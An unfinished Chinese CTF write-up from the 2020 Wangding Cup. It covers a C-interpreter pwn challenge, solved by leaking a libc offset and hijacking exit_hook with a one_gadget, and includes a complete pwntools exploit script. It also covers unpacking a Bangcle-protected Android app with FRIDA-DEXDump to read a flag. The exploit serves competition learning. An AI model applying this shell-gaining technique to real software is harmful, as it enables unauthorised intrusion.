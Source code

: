 ```yaml
---
title: 2020网鼎杯write-up(未完)
date: 2020-05-11 22:57:10
tags: CTF
---
```

# PWN  
## boom1  
（这个题目，是以前没有做过的类型，很多分析都是靠猜测，师傅们轻喷……）
这个题拿到了一脸懵，八百多行代码把我看傻了，首先分析下  
![](wdb1.png)  
看到这里有很多text、data、stack段，猜测是个编译器  
![](wdb2.png)
然后这里有一堆符号表，都是C语言函数，猜测是个C语言编译器  
![](wdb3.png)
这个地方看上去要让我们输入源码了  
而且在很多判断条件的地方有";"、"{  }"这样的东西，就更加确定是C语言的东西了  
然后我们先试一试，是不是一个C语言编译器，先弄一段C语言代码输进去看看  
![](wdb4.jpg)  
有内味了  
调调看  
![](wdb5.png)
首先可以看到这里有一块很大的内存空间，就是mmap分配的，就是在那个malloc的地方分配出来的，我们的输入就在这个地方  
然后查看栈中的信息  
![](wdb6.png)
发现这么个玩意儿，直接找偏移把它leak了  
![](wdb7.png)
![](wdb8.png)
远程的话就可以根据这个来查libc版本了  
我们知道mmap分配的区域正好在libc那块内存空间的下方，所以我们输入的东西的地址和libc的偏移是固定的   
然后我们直接定义一个指针他会指向mmap那块区域，可以利用这个指针计算出与libc_base的偏移  
然后我们既然都可以定义变量了，那岂不是相当于源码级操作  
我们直接改写指针就能劫持exit_hook为one_gadget了   
exit_hook和malloc_hook差不多，  
详细参考:https://blog.csdn.net/qq_43116977/article/details/105485947   
那我们只需要将_rtld_global结构体中的__rtld_unlock_recursive劫持为one_gadget就行  
因为这个结构体是在libc中的，所以我们只需要一个字节一个字节的改，后三位改成one_gadget就能在执行exit函数时getshell了  
因为我好像环境不太一样了，复现不出getshell的结果来，暂时先贴一个别人的exp，后面等我跑出来了再贴新的代码和截图    
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './main' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("182.92.73.10",24573)
elf=ELF(binary)
libc=elf.libc
def exp():
    payload = '''
    char *key;
    char *number;
    char *p;
    int main()
    {
    key = "N0vice";
    number = key - 0x529028;
    key = number + 6229832 - 3848 + 8;
    key[0] = 0;
    key = number + 6229832;
    p = 0xCD0F3 + number;
    key[0] = (p)&0xFF;
    key[1] = (p>>8)&0xFF;
    key[2] = (p>>16)&0xFF;
    printf("%p %p %p",number,p,*(int *)key);
    }'''
    payload = payload.replace('\n','')
    gdb.attach(p)
    p.sendline(payload)
    
    p.interactive()
exp()
```  
# Reverse  
## bang  
这个题是个Android逆向，首先用PKID查壳，发现是梆梆加固  
![](re1.png)
然后搭好安卓模拟器环境，用[FRIDA-DEXDump](https://github.com/hluwa/FRIDA-DEXDump)工具dump出dex来  
首先下载好x86的[server](https://github.com/frida/frida/releases)  
然后将server用adb push到模拟器中的/data/local/tmp/目录下  
接着adb connect 127.0.0.1:62001就可以连接到我的夜神模拟器  
然后adb shell，把server给一个可执行权限并运行  
然后在FRIDA-DEXDump目录下跑main.py脚本，就能dump出一堆dex  
![](re2.png)
大概长这样  
![(re5.png)
然后把这些dex用dex2jar工具转成jar，但是可能会出现这样的情况  
![](re3.jpg)
没有关系，一个一个试就行了  
接着用jd-gui打开，就能看到flag了  
![](re3.png)
```  
注意：模拟器大部分是x86架构，真机是arm架构，  
所以我们调试的时候需要用x86架构的server，如果用的arm在模拟器上跑就会报错  
跑脚本的时候，缺少什么东西直接pip install装上就行  
```  
## joker  




思考：这题做下来，好像感觉并不是很难，但是比赛时候没搞它是因为自己怕了，看到那么大的代码量不敢去分析，其实很佩服那些大佬，看到了新的没接触过过的东西即使可能看不懂也硬着头皮搞，而我却连硬着头皮看的勇气都没有，从思想上就胆怯了。。  
原来每次比赛都能学到东西是大师傅们会把那些题目复现一波，而我一直这么菜原因就是，每次打完了就完事儿了，啥都不管了……  
这几天先不学新知识了，争取把网鼎的时候看了的题目一个一个复现出来  